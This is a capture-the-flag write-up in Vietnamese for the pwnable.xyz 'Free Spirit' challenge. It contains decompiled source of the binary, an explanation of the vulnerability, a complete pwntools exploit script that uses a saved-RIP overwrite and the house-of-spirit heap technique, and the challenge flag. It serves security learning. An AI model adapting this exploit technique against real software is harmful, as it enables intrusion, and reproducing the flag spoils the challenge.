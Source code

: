 # Pwnable.xyz Free Spirit
## Analysis
```
undefined8 main(void)
{
  int choice;
  long lVar1;
  undefined4 *puVar2;
  long *in_FS_OFFSET;
  byte bVar3;
  void *heapPtr;
  undefined4 inp [12];
  long canary;
  
  bVar3 = 0;
  canary = in_FS_OFFSET[5];
  setup();
  heapPtr = malloc(0x40);
beginLoop:
  do {
    while( true ) {
      while( true ) {
        __printf_chk(1,&>);
        puVar2 = inp;
        for (lVar1 = 12; lVar1 != 0; lVar1 = lVar1 + -1) {
          *puVar2 = 0;
          puVar2 = puVar2 + (ulong)bVar3 * -2 + 1;
        }
        read(0,inp,0x30);
        choice = atoi((char *)inp);
        if (choice != 1) break;
        syscall();
      }
      if (1 < choice) break;
      if (choice == 0) {
        if (heapPtr == (void *)0x0) {
                    /* WARNING: Subroutine does not return */
          exit(1);
        }
        free(heapPtr);
        if (canary == in_FS_OFFSET[5]) {
          return 0;
        }
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
invalid:
      puts("Invalid");
    }
    if (choice == 2) {
      __printf_chk(1,&%p,&heapPtr);
      goto beginLoop;
    }
    if (choice != 3) goto invalid;
    if (limit < 2) {
      heapPtr = *(void **)((long)heapPtr + 8);
    }
  } while( true );
} 
```
Chương trình cho user 4 lựa chọn:
+ 0: free(heapPtr) và thoát chương trình
+ 1: gọi sys_read(0, heapPtr, 0x20)
+ 2: in ra &heapPtr
+ 3: heapPtr = heapPtr[1]
## Solution
Có &heapPtr -> có địa chỉ save rip -> ghi đè save rip bằng địa chỉ hàm win
Để ret2win thành công thì free(heapPtr) trong option 0 cũng phải thành công -> sử dụng kỹ thuật house of spirit
Chú ý tránh các lỗi alignment
```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./challenge", checksec = False)

con = process()
# gdb.attach(con, gdbscript = "b*0x4008bd")
# con = remote("svc.pwnable.xyz", 30005)

ret_gadget = 0x4008e1

def quit():
    con.sendafter(b"> ", b"0")

def option1(msg):
    con.sendafter(b"> ", b"1")
    con.send(msg)

def option2():
    con.sendafter(b"> ", b"2")
    return int(con.recvline().decode().strip("\n"), 16)

def option3():
    con.sendafter(b"> ", b"3")

if __name__ == '__main__':
    # input()
    ### Stage 1: ghi đè save rip
    leak = option2()
    log.info(hex(leak))
    rip = leak + 0x58

    option1(b"A"*8+p64(rip))
    option3()
    option1(p64(ret_gadget) + p64(leak + 0x60))

    ### Stage 2: house of spirit
    option3()
    option1(p64(elf.sym['win']) + p64(leak + 0x80) + p64(0) + p64(0x20))
    option3()
    option1(p64(0) + p64(0x20) + p64(0))
    quit()

    con.interactive()
```
## Flag
```
FLAG{I_promise_it_gets_better}
```